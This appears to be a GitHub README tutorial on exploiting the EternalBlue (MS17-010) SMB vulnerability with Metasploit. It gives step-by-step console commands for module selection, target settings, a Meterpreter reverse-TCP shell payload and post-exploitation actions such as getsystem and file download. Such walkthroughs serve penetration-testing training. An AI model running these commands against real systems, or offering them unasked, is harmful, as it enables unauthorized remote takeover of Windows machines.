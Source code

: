 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

<details>
<summary><strong>Metasploit</strong></summary>
Metasploit is an open-source penetration testing framework that offers a vast collection of tools and exploits for security testing, vulnerability assessment, and penetration testing. It provides a comprehensive platform for security professionals and researchers to test systems, identify vulnerabilities, and execute various security assessments. Metasploit includes a vast database of exploits, payloads, auxiliary modules, and post-exploitation tools, enabling users to assess the security posture of systems and networks.
</details>

<details>
<summary><strong>Eternal Blue</strong></summary>
EternalBlue is the codename for a critical software vulnerability in Microsoft's Windows operating system discovered by the National Security Agency (NSA) and later leaked by a hacking group. This vulnerability (CVE-2017-0144) affects the Windows Server Message Block (SMB) protocol. EternalBlue exploits a flaw in the SMBv1 protocol, allowing attackers to execute arbitrary code remotely on a vulnerable system without requiring user interaction. It was famously used as part of the WannaCry ransomware attack, highlighting its significance and the need for timely system patching and security measures.
</details>

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```bash
msfconsole
```

### View all available command in Metasploit using:

```bash
help
```

### Search EternalBlue exploits module using:

```bash
show exploits
```

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```bash
search ms17-010
```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

## 5. Set Required Parameters

Configure necessary parameters by employing the `show options` command to view and adjust settings as needed. Common options include `RHOSTS`,`LHOST`, `RPORT`, etc.

```bash
set RHOSTS <Target IP>
```
-------------------------------------------------------------------------------
| Parameter | Description                           | Example Usage           |
|-----------|---------------------------------------|-------------------------|
| RHOSTS    | Remote host(s) IP address(es)         | `set RHOSTS 192.168.1.5`|
| LHOST     | Local host listening IP for payloads  | `set LHOST 192.168.1.2` |
| RPORT     | Remote port for the target service    | `set RPORT 445`         |
-------------------------------------------------------------------------------

## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```bash
exploit
```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the `meterpreter` prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands** 

Execute system commands on the target system using :
  
```bash
shell
```
  
- **Gather System Information**

Retrieve system information like system details, user information, etc. using commands:

```bash
sysinfo,getuid
``` 

- **File Operations**

Manipulate files on the compromised system using commands:

```bash
download, upload, ls, cd
```

- **Privilege Escalation**

Attempt to elevate privileges on the target system using modules:

```bash
getsystem, migrate
```

- **Open URL**

Open URL in compromised device using commands like:

```bash
start explorer https://www.example.com
```





